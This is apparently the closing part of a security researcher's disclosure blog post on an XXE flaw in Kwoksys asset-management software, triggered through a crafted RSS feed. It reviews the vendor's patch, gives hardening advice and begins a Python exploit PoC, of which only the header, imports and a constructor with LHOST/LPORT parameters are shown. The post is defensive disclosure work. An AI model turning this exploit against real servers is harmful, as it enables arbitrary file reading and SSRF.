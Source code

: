 <hr>

### Patch Review

After reporting this to the Kwoksys team - they quickly deployed a patch [2.9.5.SP31] which addresses this. They took the report seriously and had a fix rolled out within days of first contact.
![Image](/images/2022-11-12-kwoksys-xxe/Pasted image 20221112104410.png)

As this is an open source project, let's review the mitigations implemented by the developers.
![Image](/images/2022-11-12-kwoksys-xxe/Pasted image 20221112142936.png)

The developers manually overrided 'IS_SUPPORTING_EXTERNAL_ENTITIES' to false to disable all support for external entities effectively eliminating the XXE vulnerability.

<hr>

### Key Takeaways

From the developer perspective - While much less common nowadays, some XML parsing libraries still have external entity support enabled by default instead of disabled by default. In this case, the default implementation of the XMLInputFactory provided support for external entities and the property was not overrided to false when brought into the application to be used. Whenever XML parsing is required - the usage of external entities should be highly scrutinized. If there isn't a strict business requirement for the functionality, it is safer to fully disable support for external entities. If external entities are needed due to a business requirement - significant validation should be implemented to ensure that users cannot declare new entities themselves, control the entire XML document processed by the server, or use mechanisms like XInclude. You can read more about XXE over at [Portswigger's XXE Reference](https://portswigger.net/web-security/xxe)

From the security research perspective - when hunting for vulnerabilities, your eyes should be drawn to custom code. However, it is important not to neglect standard libraries or popular 3rd party libraries. Ultimately, some libraries can be made insecure depending on how they are brought into an application to be used.

Thank you for reading!

<hr>

### Exploit PoC
```python
#/usr/bin/env python
#
# Exploit Title       : XXE via Crafted RSS Feed
# Author              : navsec
# Vulnerable Software : https://www.kwoksys.com
#
# Usage : KwokSys < v2.9.5.SP31 contains an XXE vulnerability that can be triggered by an
#         authenticated user with privileged access to the RSS module to arbitrarily read files or
#	  conduct SSRF attacks.
          
# DISCLAIMER: This PoC is provided for educational purposes only.

from http.server import SimpleHTTPRequestHandler
import requests, argparse
import urllib.parse
import sys, socketserver, threading, time
import re, html

class kwoksys:
    def __init__(self, url, username, password, LHOST, LPORT) -> None:
        self.url = url
        self.username = username
        self.password = password
        self.LHOST = LHOST
        self.LPORT = LPORT
```